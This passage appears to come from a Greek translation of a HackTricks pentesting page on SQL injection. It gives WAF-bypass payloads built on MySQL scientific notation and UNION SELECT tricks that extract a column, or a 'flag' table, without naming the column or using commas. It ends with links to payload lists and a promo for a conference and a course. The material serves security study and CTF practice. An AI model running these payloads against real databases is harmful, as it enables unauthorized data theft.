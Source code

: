 Μπορείτε να βρείτε μια πιο λεπτομερή εξήγηση αυτού του κόλπου στο [blog της gosecure](https://www.gosecure.net/blog/2021/10/19/a-scientific-notation-bug-in-mysql-left-aws-waf-clients-vulnerable-to-sql-injection/).\
Βασικά, μπορείτε να χρησιμοποιήσετε την επιστημονική σημείωση με αναπάντεχους τρόπους για να παρακάμψετε το WAF:
```
-1' or 1.e(1) or '1'='1
-1' or 1337.1337e1 or '1'='1
' or 1.e('')=
```
### Παράκαμψη Περιορισμού Ονομάτων Στηλών

Καταρχήν, παρατηρήστε ότι αν η **αρχική ερώτηση και ο πίνακας από τον οποίο θέλετε να εξαγάγετε τη σημαία έχουν τον ίδιο αριθμό στηλών**, μπορείτε απλά να κάνετε: `0 UNION SELECT * FROM flag`

Είναι δυνατόν να **έχετε πρόσβαση στην τρίτη στήλη ενός πίνακα χωρίς να χρησιμοποιείτε το όνομά της** χρησιμοποιώντας μια ερώτηση όπως η παρακάτω: `SELECT F.3 FROM (SELECT 1, 2, 3 UNION SELECT * FROM demo)F;`, οπότε σε ένα sqlinjection αυτό θα μοιάζει με:
```bash
# This is an example with 3 columns that will extract the column number 3
-1 UNION SELECT 0, 0, 0, F.3 FROM (SELECT 1, 2, 3 UNION SELECT * FROM demo)F;
```
Ή χρησιμοποιώντας ένα **παράκαμψη με κόμμα**:
```bash
# In this case, it's extracting the third value from a 4 values table and returning 3 values in the "union select"
-1 union select * from (select 1)a join (select 2)b join (select F.3 from (select * from (select 1)q join (select 2)w join (select 3)e join (select 4)r union select * from flag limit 1 offset 5)F)c
```
Αυτό το κόλπο πήρε από [https://secgroup.github.io/2017/01/03/33c3ctf-writeup-shia/](https://secgroup.github.io/2017/01/03/33c3ctf-writeup-shia/)

### Εργαλεία προτάσεων παράκαμψης WAF

{% embed url="https://github.com/m4ll0k/Atlas" %}

## Άλλοι Οδηγοί

* [https://sqlwiki.netspi.com/](https://sqlwiki.netspi.com)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

## Λίστα ανίχνευσης Brute-Force

{% embed url="https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/sqli.txt" %}



​

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

​​​​​​​[**RootedCON**](https://www.rootedcon.com/) είναι το πιο σχετικό συνέδριο κυβερνοασφάλειας στην **Ισπανία** και ένα από τα πιο σημαντικά στην **Ευρώπη**. Με **αποστολή να προωθήσει την τεχνική γνώση**, αυτό το συνέδριο είναι ένας ζωντανός σημείο συνάντησης για επαγγελματίες τεχνολογίας και κυβερνοασφάλειας σε κάθε ειδικότητα.

{% embed url="https://www.rootedcon.com/" %}

<details><summary><strong>Μάθετε το hacking του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
